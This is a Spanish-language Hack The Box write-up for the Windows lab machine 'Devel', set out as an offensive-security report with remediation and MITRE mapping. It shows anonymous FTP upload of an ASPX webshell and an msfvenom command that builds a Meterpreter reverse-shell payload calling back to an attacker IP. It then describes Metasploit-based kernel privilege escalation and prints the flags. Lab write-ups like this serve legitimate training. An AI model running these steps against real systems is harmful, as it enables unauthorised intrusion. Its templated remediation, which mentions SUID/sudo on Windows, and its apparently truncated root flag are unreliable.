








# Informe Técnico de Seguridad Ofensiva: Devel


**Evaluación de Seguridad Ofensiva y Penetration Testing** realizada sobre el entorno de laboratorio **Devel** de **Hack The Box**, siguiendo los estándares de ejecución metodológica **OffSec PEN-200 (OSCP)** y **PTES (Penetration Testing Execution Standard)**.

---

## 📑 1. Resumen Ejecutivo (Executive Summary)

* **Objetivo de la Evaluación:** Identificar, documentar y explotar debilidades de seguridad en el host objetivo para evaluar el impacto sobre la confidencialidad, integridad y disponibilidad del sistema.
* **Calificación de Riesgo:** `CRÍTICO` (Acceso no autenticado que deriva en compromiso completo de la máquina y obtención de máximos privilegios administrativos).
* **Vector de Acceso Inicial:** FTP Anonymous Upload + IIS ASPX Webshell Execution
* **Vector de Elevación de Privilegios:** local_exploit_suggester + Kernel Exploit
* **Estado Final:** Compromiso total del objetivo (`User Proof` y `Root/System Proof` obtenidas exitosamente).

### Ficha Técnica de la Evaluación

| Parámetro | Detalle Técnico |
| :--- | :--- |
| **Host Objetivo** | Devel |
| **Plataforma** | Hack The Box |
| **Sistema Operativo** | Windows |
| **Nivel de Dificultad** | Easy |
| **CVE(s) Involucrados** | N/A (Misconfiguration) |
| **Vector de Entrada** | FTP Anonymous Upload + IIS ASPX Webshell Execution |
| **Mecanismo de Escalada** | local_exploit_suggester + Kernel Exploit |
| **Consultor / Auditor** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Diagrama del Flujo de Compromiso (Attack Path)

```
[ Fase 1: Reconocimiento ]
         │
         ▼
[ Fase 2: Enumeración & Identificación de Vectores ]
         │─── Descubrimiento de servicios y análisis de superficie de ataque
         └─── Verificación de configuraciones erróneas y CVEs conocidos
         │
         ▼
[ Fase 3: Explotación Inicial (Foothold) ]
         │─── Ejecución del vector: FTP Anonymous Upload + IIS ASPX Webshell Execution
         └─── Establecimiento de Reverse Shell / Acceso de usuario
         │
         ▼
[ Fase 4: Escalada de Privilegios Local ]
         │─── Auditoría interna: local_exploit_suggester + Kernel Exploit
         └─── Elevación a privilegios de superusuario (root / SYSTEM)
         │
         ▼
[ Fase 5: Evidencia & Banderas ]
         └─── Captura de User Flag y Root Flag
```

---

## 🔬 3. Procedimiento Técnico y Evidencias Paso a Paso

CVE(s): N/A (Misconfiguration)
GTFOBins/Abusos (sudo/SUID): N/A
Initial Access Exploit (Ingreso): FTP Anonymous Upload + IIS ASPX Webshell Execution

Privilege Escalation (Escalada): local_exploit_suggester + Kernel Exploit


| Campo | Detalle |
| --- | --- |
| Nombre | Devel |
| OS | Windows 7 Enterprise (IIS 7.5) |
| Dificultad | Easy |
| CVE | N/A (Misconfiguration) |
| Acceso Inicial | FTP Anonymous Upload + IIS ASPX Webshell |
| Escalada | local_exploit_suggester (Metasploit) |

---

## Reconocimiento

Se identifico el servicio **Microsoft ftpd** corriendo en el puerto TCP 21, junto con un servidor web IIS en el puerto 80. El escaneo revelo que el servicio FTP permite acceso anonimo y que el directorio raiz del FTP es el mismo que el del servidor web IIS:



## Enumeracion

Al conectarse al FTP con credenciales anonimas, se confirmo que es posible subir archivos al servidor usando el comando **put**. Dado que el directorio FTP es la raiz del servidor web IIS, cualquier archivo subido es accesible via HTTP:



## Explotacion

Los archivos subidos al FTP son directamente accesibles a traves del servidor web. El servidor IIS ejecuta archivos con extension **.aspx** como scripts del lado del servidor. Esto permite subir una webshell ASPX maliciosa via FTP anonimo y ejecutarla a traves del navegador para obtener una reverse shell:



Se genero el payload con msfvenom y se subio al servidor:

## Escalada de Privilegios

La shell inicial se obtuvo como usuario de servicio web (IIS APPPOOL). Para escalar privilegios, se utilizo el modulo **post/multi/recon/local_exploit_suggester** de Metasploit, que identifico exploits de kernel aplicables al sistema Windows 7:



```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.6 LPORT=443 -f aspx -o shell.aspx
```

### User Flag (babis)

Tras la explotacion, se obtuvo la flag del usuario babis: `16f1f87912acda2db4f07459d7169f88`







### Root Flag (Administrator)

Tras la escalada de privilegios exitosa a NT AUTHORITYSYSTEM, se obtuvo la flag del administrador: `9d95dc67efeba16fda37b69b7ffe4ce`



---

## 🛡️ 4. Plan de Remediación y Recomendaciones de Hardening

### Acciones Tácticas Inmediatas
1. **Aplicación de Parches y Actualización:** Actualizar todos los servicios obsoletos y aplicar los parches correspondientes a las vulnerabilidades documentadas (N/A (Misconfiguration)).
2. **Revisión de Permisos Críticos:** Eliminar permisos SUID/sudo innecesarios y auditar listas de control de acceso (ACLs) en directorios y archivos sensibles.
3. **Cierre de Superficie de Exposición:** Configurar firewalls a nivel de host para denegar puertos de administración o de depuración que no deban estar expuestos públicamente.

### Acciones Estratégicas y de Arquitectura
1. **Principio de Mínimo Privilegio (PoLP):** Configurar servicios y aplicaciones para que se ejecuten bajo cuentas de servicio con privilegios limitados sin acceso a shells interactivas.
2. **Segmentación de Red:** Aislar componentes críticos y servidores de aplicaciones en VLANs dedicadas con inspección de tráfico Este-Oeste.
3. **Monitorización Continua y EDR:** Implementar reglas de detección basadas en comportamiento para identificar ejecuciones anómalas de comandos, spawning de shells y tráfico de red no autorizado.

---

## 📊 5. Mapeo con Matriz MITRE ATT&CK

| Táctica | ID de Técnica | Nombre de Técnica | Aplicación en el Ejercicio |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Vulnerability Scanning | Detección automatizada y manual de servicios mediante escaneo de puertos |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Explotación de vulnerabilidad en servicio de red expuesto (FTP Anonymous Upload + IIS ASPX Webshell Execution) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Spawning de reverse shell interactiva para control del endpoint |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Mechanism / Exploitation | Elevación de privilegios hacia superusuario (local_exploit_suggester + Kernel Exploit) |

---

© 2026 **araizcorp** — Documentación técnica desarrollada para preparación y consultoría de certificaciones **OffSec** (OSCP, OSEP, OSWE).
